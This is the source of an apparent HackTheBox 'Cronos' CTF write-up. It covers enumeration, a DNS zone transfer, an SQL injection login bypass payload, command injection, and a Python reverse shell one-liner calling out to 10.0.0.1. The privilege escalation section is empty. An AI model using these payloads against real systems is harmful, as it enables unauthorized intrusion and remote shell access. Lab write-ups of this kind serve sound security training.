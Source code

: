 ```yaml
---
layout: post
title:	"Cronos Writeup"
date:	2018-09-20 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Cronos Writeup | HackTheBox </title>
</head>

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/ports.png)

## ii. Enumeration

Navigating to the host in the browser:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser.png)

Default Apache page...

Running a gobuster:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster.png)

`No results...`

In the port scan, we saw DNS open. Let's see if we can find any information:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/nslookup.png)

We got a domain, `cronos.htb`

Let's add `cronos.htb` to our hosts file and attempt to browse to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browse2.png)

Running a gobuster scan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/gobuster2.png)

Viewing robots.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/robots.png)

Once again, another dead end...

Let's attempt a zone transfer, and see what kind of information we get:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/zonetransfer.png)

`admin.cronos.htb` looks very promising...

After adding `admin.cronos.htb` to `/etc/hosts`, let's navigate to it:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/browser3.png)

A login page, lets attempt to bypass using SQLi...

`admin' or '1'='1`

~~~
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/bypass.png)

Access granted.

Looks like we can run traceroute and see the output in the browser.

Let's see if it's vulnerable to command injection:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/commandinjection.png)

We have command injection!

To get a shell, I'm going to use a reverse shell python one-liner:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/cronos/revshell.png)

## iii. Privilege Escalation











~~~
Sources / Links:
[0]: https://serverfault.com/questions/217654/difference-between-nt-authority-network-service-and-nt-authority-system
~~~


